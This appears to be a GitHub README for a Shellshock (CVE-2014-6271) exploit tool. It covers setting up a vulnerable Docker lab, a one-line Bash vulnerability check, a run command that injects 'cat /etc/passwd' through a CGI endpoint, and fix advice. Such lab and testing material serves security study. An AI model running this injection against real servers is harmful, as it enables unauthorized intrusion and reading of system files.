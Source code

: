 ## CVE-2014-6271 [ shellshock ]
> GNU Bourne-Again Shell (Bash) ‘Shellshock’ Vulnerability

- Expose a machine to shellshock attack
  ```
  docker pull hmlio/vaas-cve-2014-6271
  docker run -d -p 8080:80 hmlio/vaas-cve-2014-6271
  ```

- Check if the current machine is vulnerable to `CVE-2014-6271`
  ```
  env 'VAR=() { :;}; echo Bash is vulnerable!' 'FUNCTION%%=() { :;}; echo Bash is vulnerable!' bash
  ```

### Run
```
python CVE-2014-6271/main.py http://0.0.0.0:8080/cgi-bin/stats 'cat /etc/passwd;'
```

### How to fix ?
- Update Bash version `> v4.3`
- Check version `bash --version`

### Prerequisites
1. Python libraries
   ```
   requests
   mechanize
   pyopenssl
   ```